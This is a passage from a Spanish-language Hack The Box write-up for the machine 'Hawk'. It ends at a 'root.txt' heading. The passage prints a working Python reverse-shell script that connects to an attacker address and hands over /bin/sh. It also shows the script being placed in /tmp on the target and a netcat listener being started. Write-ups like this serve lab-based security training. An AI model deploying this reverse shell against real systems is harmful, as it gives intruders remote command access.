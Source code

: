 - Usaremos el siguiente script para recibir la reverse shell.

```bash
❯ cat reverse.py
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.63", 8080))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])
```

- Vamos a meter eso en /tmp.

```bash
daniel@hawk:/tmp$ chmod +x reverse.py
```

- Nos ponemos en escucha.

```bash
❯ nc -nlvp 8080
listening on [any] 8080 ...
```

- Y ejecutamos solo que ahora ejecutamos python3 y la ruta del archivo en python3.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/hawk/12.png">
</p>

## root.txt
